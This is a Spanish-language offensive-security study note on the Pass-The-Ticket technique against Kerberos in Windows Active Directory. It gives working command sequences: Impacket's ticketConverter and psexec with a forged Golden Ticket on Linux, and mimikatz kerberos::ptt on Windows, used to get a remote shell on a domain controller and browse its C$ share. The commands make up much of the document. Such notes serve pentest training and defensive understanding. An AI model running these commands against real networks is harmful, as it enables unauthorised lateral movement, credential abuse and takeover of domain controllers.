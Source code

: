# Pass The Ticket 

Tags: #AD #Windows #Persistencia #PassTheTicket 

**Pass-The-Ticket (PTT)** es una técnica avanzada de compromiso de credenciales utilizada en pentesting y ciberseguridad ofensiva. Esta técnica explota vulnerabilidades en la implementación del protocolo de autenticación **Kerberos** en redes Windows, permitiendo a los atacantes utilizar tickets de autenticación (TGT o TGS) previamente obtenidos para acceder a recursos de la red. Con PTT, los atacantes pueden realizar movimientos laterales y acceder a sistemas y servicios sin necesidad de conocer las contraseñas asociadas a los usuarios.

## PTT en Linux

En entornos Linux/Unix, el proceso implica convertir el ticket a un formato compatible (.ccache). Herramientas como `ticketConverter.py` de Impacket son esenciales en este proceso. Una vez convertido, se puede utilizar `kinit` con el archivo .ccache para autenticarse en el entorno Linux/Unix.

```powershell
❯ impacket-ticketConverter evil.tck evil.ccache   # Convertir el archivo del Golden Ticket al formato '.ccache'
❯ export KRB5CCNAME=/home/kali/Desktop/CPAD/evil.ccache  # Exportar la variable de entorno 
❯ klist     # Mirar los tickets 
❯ impacket-psexec -k -no-pass -target-ip 18.191.44.143 -dc-ip 18.191.44.143 first-dc.domain1.corp

	# k = Utiliza la autenticación de Kerberos 
	# target-ip = Es la dirección IP del DC
	# dc-ip = Es la dirección IP del DC

❯ dir \\First-DC.domain1.corp\c$        # Mirar el contenido del directorio en el dominio 
```


## PTT en Windows

```powershell 
❯ mimikatz.exe
	# kerberos::ptt evil.tck           # Este archivo es del Golden ticket llamado 'evil.tck'
	# exit 
❯ klist
❯ dir \\First-DC.domain1.corp\c$        # Mirar el contenido del directorio en el dominio 
```